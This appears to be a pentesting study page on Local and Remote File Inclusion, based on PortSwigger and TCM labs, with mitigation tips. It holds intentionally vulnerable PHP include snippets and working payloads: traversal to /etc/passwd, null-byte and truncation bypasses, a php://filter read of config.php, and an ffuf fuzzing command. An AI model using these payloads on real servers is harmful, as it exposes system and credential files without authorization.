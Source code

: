 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# LFI & RFI

## General Information

The common place we usually find LFI within is **template engines**. These keep the static parts of the web application the same when navigating between different pages. For example, `/index.php?page=about'`:

* `/index.php` sets the static content
* `?page=about` pulls the dynamic content, e.g. `about.php`

## LFI

{% hint style="info" %}
Local File Inclusion (LFI) is a vulnerability where an attacker can trick a web application into including and executing files from the server's local filesystem.
{% endhint %}

{% hint style="danger" %}
This can lead to the exposure of sensitive information, execution of malicious scripts, and potentially complete server compromise.
{% endhint %}

{% hint style="success" %}
Validate and sanitize user inputs, restrict file paths to trusted directories, and use proper access controls to prevent unauthorized file access.
{% endhint %}

LFI flaws can be exploited using [relative](lfi-and-rfi.md#simple-case) or [absolute](lfi-and-rfi.md#absolute-path) paths. If the application does not block traversal sequences (`../`), **default on using a relative path** as it will work on both cases. If unsure where you are (`pwd`) **keep adding `../`** as it won't break the path.

### Relative Path

> _The example below is based on PostSwigger's_ [_File path traversal, simple case_](https://portswigger.net/web-security/file-path-traversal/lab-simple) _lab._

```php
# String appended/prepended to the parameter
include("./languages/" . $_GET['language']);
```

<figure><img src="../../../.gitbook/assets/web_lfi_1.png" alt=""><figcaption><p>Figure 1: Identifying a potentially vulnerable to File Inclusion parameter.</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/web_lfi_2.png" alt=""><figcaption><p>Figure 2: Performing a File Inclusion fuzzing for the <code>/etc/passwd</code> file.</p></figcaption></figure>

### Absolute Path

> _The example below is based on PostSwigger's_ [_File path traversal, traversal sequences blocked with absolute path bypass_](https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass) _lab._

The absolute path can be used when the application's code use the whole input to read a file. This allows the attacker, given that no LFI filters are implemented, to read a file directly.

```php
# The whole input is used
include($_GET['language']);
```

We can try repeating the attack using different wordlists that including filter-bypassing techniques, like [LFI-Jhaddix.txt](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/LFI/LFI-Jhaddix.txt), with Burp's Intruder or an open-source CLI tool, such as [`ffuf`](../../../tools/web/dirbusting/fuff.md). In this case, two different payloads worked, one using the absolute path of the file and one that bypasses the path traversal sequence filter (Figure 4).

{% code overflow="wrap" %}
```bash
ffuf -u 'https://0a5c00d20469866d80b2ad6300c30006.web-security-academy.net/image?filename=FUZZ' -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -c -ac -ic -mr 'root:'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/web_lfi_3.png" alt=""><figcaption><p>Figure 4: A successful LFI-fuzzing attack.</p></figcaption></figure>

## RFI

{% hint style="info" %}
Remote File Inclusion (RFI) is a vulnerability where an attacker can include and execute a remote file on the web server via a script.
{% endhint %}

{% hint style="danger" %}
This can result in remote code execution, data theft, and complete control over the compromised server.
{% endhint %}

{% hint style="success" %}
Disable remote file includes, validate and sanitize user inputs, and configure the server to only allow the inclusion of local files from trusted directories.
{% endhint %}

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

In the example below, it is possible to access remote files using the application's `filename` parameter (Figure 5).

<figure><img src="../../../.gitbook/assets/web_rfi_1.png" alt=""><figcaption><p>Figure 5: An example of a Remote File inclusion vulnerability.</p></figcaption></figure>

## Filters

### File Traversal Filters

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

Once common defense against FI attacks is by using **Search and Replace filters** which remove all instances of path traversal sequences (Figure 6.1). If these filters are **non-recursive**, i.e., run just a single time on the input string, it can be bypassed by doubling up the traversal sequence (Figure 6.2).

```php
# An example of a search and replace filter
$language = str_replace('../', '', $_GET['language']);
```

<figure><img src="../../../.gitbook/assets/web_lfi_path_traversal_filters.png" alt=""><figcaption><p>Figure 6: Bypassing the traversal sequence filters.</p></figcaption></figure>

### Approved Paths

> _The example below is based on PostSwigger's_ [_File path traversal, validation of start of path_](https://portswigger.net/web-security/file-path-traversal/lab-validate-start-of-path) _lab._

A common protective technique against LFI is the use of regular expressions to ensure that the file being included is under a defined directory. This can be easily bypassed by **including the required directory within the payload** (Figure 7).

{% code overflow="wrap" %}
```php
# Using regex to "lock" down the directory
if(preg_match('/^\.\/languages\/.+$/', $_GET['language'])) { include($_GET['language']); } else { echo 'Illegal path specified!'; }
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/web_lfi_approved_paths.png" alt=""><figcaption><p>Figure 7: Exploiting LFI using by including the expected file path.</p></figcaption></figure>

### Filename Prefix

{% hint style="danger" %}
Using `/../` (_the directory may not exist and may break some FI techniques, such as PHP wrappers/filters_).
{% endhint %}

```php
# Input appended after another string
include("lang_" . $_GET['language']);
```

```html
<!-- Bypassing prefix -->
/index.php?language=/../../../etc/passwd
```

### Appended Extensions

```php
# Extension appended to the target parameter
include($_GET['language'] . ".php");
```

#### Path Truncation (ealier PHP versions)

* Max strings length is `4096` chars -> everything longer is truncated.
* Trailing `/` and `.` in path names are truncated (`/etc/passwd/.` -> `/etc/passwd`).
* Both PHP and Linux disregard multiple `/` in the path ( `////etc/passwd` =`/etc/passwd`).
* Similarly, a current directory shortcut (`.`) in the middle of the path would also be disregarded.

Based on the those characteristics, we can create very long strings that evaluate to the target path.

{% hint style="warning" %}
For this technique to work, we need to **start the path with a non-existing directory**.
{% endhint %}

{% code overflow="wrap" %}
```html
<!-- Creating a string longer than 4096 chars -->
?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]
```
{% endcode %}

{% code overflow="wrap" %}
```bash
# Creating the above with bash
echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done non_existing_directory/../../../etc/passwd/./././././././
```
{% endcode %}

#### Null Byte (PHP < 5.3.4)

Appended extensions can be also bypassed with the use of a **null byte** (`%00` or `0x00`).

```html
<!-- Commenting out the extension -->
/index.php?language=/../../../etc/passwd%00
```

## Other Techniques

### PHP Filters

Read the source code of PHP files.

```html
<!-- Exfiltrating the source code of the config.php file -->
/index.php?language=php://filter/read=convert.base64-encode/resource=config.php
```

For an example of this check [StreamIO](../../../boxes/medium/streamio.md#local-file-inclusion).

### Second-Order Attacks

The goal here is to **poison a database entry**, such as the registration name, so another web application functionality gets tricked. This type of attack is often overlooked by the developers, as values pulled from the application's database is generally trusted. For example, if a web application provides the option to download our avatar via `/profile/$username/avatar.png`, we could try crafting a malicious LFI-based username, such as `../../../etc/passwd`.
